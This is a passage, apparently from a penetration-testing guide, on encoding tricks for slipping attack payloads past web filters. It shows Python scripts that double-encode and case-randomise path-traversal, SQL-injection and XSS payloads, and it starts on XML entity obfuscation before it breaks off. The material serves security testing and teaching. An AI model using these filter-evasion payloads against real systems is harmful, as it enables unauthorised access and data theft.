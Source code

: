        # Example payload
       path_traversal = "../../etc/passwd"
       sql_injection = "' OR 1=1--"
       
       print("Original path traversal:", path_traversal)
       print("Double-encoded path traversal:", double_url_encode(path_traversal))
       print("Proper double-encoded path traversal:", proper_double_url_encode(path_traversal))
       
       print("Original SQL injection:", sql_injection)
       print("Double-encoded SQL injection:", double_url_encode(sql_injection))
       print("Proper double-encoded SQL injection:", proper_double_url_encode(sql_injection))
       ```

    3. **Case variation in URL encoding**:
       - Step 1: Identify hexadecimal characters in URL-encoded values
       - Step 2: Create variations using uppercase and lowercase hex digits
       - Step 3: Test if application treats them as equivalent or different
       - Step 4: Use the case variation that bypasses filters
       - Step 5: Submit and test execution
       - Example: `%3c` vs `%3C` for the < character
       - Testing insight: Some filters check for specific case patterns in hex encoding
       - Python script for case variation in URL encoding:
       ```python
       import random
       
       def random_case_url_encode(payload):
           result = ""
           for char in payload:
               # URL encode the character
               hex_code = format(ord(char), '02x')
               # Randomize the case
               hex_code_random_case = ''.join(random.choice([c.upper(), c.lower()]) for c in hex_code)
               result += "%" + hex_code_random_case
           return result
       
       # Example
       xss_payload = "<script>alert('XSS')</script>"
       
       # Generate 5 different case variations
       for i in range(5):
           encoded = random_case_url_encode(xss_payload)
           print(f"Variation {i+1}: {encoded}")
       ```

  - **XML-based encoding techniques**
    1. **XML entity encoding**:
       - Step 1: Define custom XML entities in the DOCTYPE
       - Step 2: Use these entities in your payload to obfuscate it
       - Step 3: Test if the XML parser resolves entities before security checks
       - Step 4: Chain multiple entities for deeper obfuscation
       - Step 5: Submit the XML with encoded payload
       - Example: Define `<!ENTITY xxe "SELECT">` and use `&xxe;` in queries
       - Testing insight: XML parsers resolve entities before data reaches application logic
       - Example XML with entity obfuscation:
       ```xml
       <?xml version="1.0" encoding="UTF-8"?>
       <!DOCTYPE foo [
           <!ENTITY s "S">
           <!ENTITY e "E">